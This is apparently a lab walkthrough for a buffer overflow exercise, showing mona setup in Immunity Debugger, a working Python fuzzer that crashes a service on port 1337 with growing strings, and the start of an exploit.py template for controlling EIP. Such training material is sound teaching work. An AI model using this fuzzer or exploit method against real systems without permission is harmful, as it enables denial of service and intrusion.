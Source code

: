 
### __Mona Configuration__

* The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

```bat
!mona config -set workingfolder c:\mona\%p
```

### __Fuzzing__

* Create a file on your Kali box called fuzzer.py with the following contents:

```py
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

* Run the fuzzer.py script using python: python3 fuzzer.py

* The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

### __Crash Replication & Controlling EIP__

* Create another file on your Kali box called exploit.py with the following contents:

```py
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""
```